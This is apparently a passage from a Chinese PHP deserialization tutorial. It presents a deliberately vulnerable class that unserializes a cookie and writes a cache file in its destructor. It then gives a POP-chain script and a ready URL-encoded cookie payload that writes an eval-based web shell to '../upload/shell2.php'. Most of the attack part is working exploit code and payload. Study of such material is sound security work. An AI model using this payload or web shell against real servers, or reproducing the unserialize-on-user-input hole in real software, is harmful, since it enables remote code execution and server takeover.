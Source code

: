 
#### 例二

```php
<?php
class Template {
    var $cacheFile = "cache.txt";
    var $template = "<div>Welcome back %s</div>";

    function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    function loadData($data) {
        return unserialize($data); //触发反序列化
        //return [];
    }

    function createCache($file = null, $tpl = null) {
        $file = $file ?: $this->cacheFile;
        $tpl = $tpl ?: $this->template;
        file_put_contents($file, $tpl);  //终点，写shell
    }

    function render($data) {
        echo sprintf($this->template, htmlspecialchars($data['name']));  //此处为数组
    }

    function __destruct() {
        $this->createCache();
    }
}
new Template($_COOKIE['data']);
?>
```

POP链

```php
<?php
class Template{
    var $cacheFile = "../upload/shell2.php";
    var $template = '<?php @eval($_POST["gsl"]); ?>';
}
$t = new Template();
$a = array($t);
echo urlencode(serialize($a));
```

```
COOKIE: data=a%3A1%3A%7Bi%3A0%3BO%3A8%3A%22Template%22%3A2%3A%7Bs%3A9%3A%22cacheFile%22%3Bs%3A20%3A%22..%2Fupload%2Fshell2.php%22%3Bs%3A8%3A%22template%22%3Bs%3A30%3A%22%3C%3Fphp+%40eval%28%24_POST%5B%22gsl%22%5D%29%3B+%3F%3E%22%3B%7D%7D
```
